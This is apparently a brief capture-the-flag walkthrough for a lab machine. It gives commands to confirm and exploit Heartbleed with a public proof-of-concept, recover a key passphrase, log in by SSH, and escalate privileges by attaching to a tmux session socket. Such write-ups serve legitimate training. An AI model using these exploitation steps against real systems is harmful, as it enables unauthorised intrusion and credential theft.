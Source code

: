 Look at the autorecon results. mitm vulns are all rabbit holes.
I alsom tried to do RCE on decode/encode.php But also rabbit holes as they did the sanatization quite well.

### Foothold
```
# Google "xkcd heartbleed"

sslyze --heartbleed 10.10.10.79:443 # It is vulnerable

# Find the good exploit https://github.com/sensepost/heartbleed-poc
python heartbleed-poc.py -n100 -f dump.bin 10.10.10.79 # Get the passphrase

chmod 600 private.key
ssh hype@10.10.10.79 -i private.key # Use the passphrase
```

### Priv
```
history

# Google "exploit tmux" or the "exploit dev_sass" file

tmux -S dev_sass
```